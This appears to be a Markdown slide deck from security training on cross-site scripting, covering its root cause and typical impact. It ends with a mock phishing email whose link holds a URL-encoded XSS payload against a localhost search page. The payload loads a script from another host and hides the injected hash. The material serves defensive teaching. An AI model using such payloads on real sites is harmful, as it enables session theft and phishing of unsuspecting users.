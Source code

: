 







# XSS

## (Cross-Site Scripting)

---

# [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

1. An attacker can use XSS to send a malicious script to an unsuspecting user
2. The end user's browser has _no way to know that the script should not be trusted_, and will execute the script

---

# Root Cause

Web applications vulnerable to XSS...

1. ...include untrusted data (usually from an HTTP request) into dynamic content...
2. ...that is then sent to a web user _without previously validating for malicious content_

---

# Typical Impact

* Steal user's session
* Steal sensitive data
* Rewrite the web page
* Redirect user to malicious website

---

# Typical Phishing Email

<small>Dear valued customer!

You won our big lottery which you might not even have participated in!
Click on the following totall inconspicious link to claim your prize **now**!

[CLICK HER! FREE STUFF! YOU WON!](http://localhost:3000/#/search?q=%3Cimg+src%3Dx+onerror%3D%27var+js%3Ddocument.createElement%28%22script%22%29%3Bjs.type+%3D+%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar+hash%3Dwindow.location.hash%3Bwindow.location.hash%3Dhash.substr%280%2C8%29%3B%27%2F%3Eapple)

